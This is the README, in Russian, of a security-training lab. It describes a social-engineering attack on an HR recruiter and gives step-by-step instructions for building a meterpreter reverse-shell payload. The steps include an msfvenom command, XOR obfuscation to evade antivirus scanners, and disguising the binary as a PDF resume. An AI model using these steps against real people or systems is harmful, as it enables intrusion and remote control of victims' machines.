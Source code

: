 # cyberpolygon
cyberpolygon for information security training

Добавить видео работы или в гиф превратить

### Для работы стенда необходимо ввести след команды
![Image alt](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png)

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-36-50.png)

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-09.png)

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-19.png)

Так выглядят Отработавшие скрипты HR:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-34.png)


и hacker:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-47.png)

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-42-24.png)

Скопируем char buf[] и вставим это в программу encoder_beautiful.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-17.png)

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-40.png)


Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-50.png)

Запустим:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-00.png)

И получаем оболочку:
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-08.png)

## Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-26.png)

Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-35.png)

Результат сканирования написанного вируса на virustotal :
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-55.png)


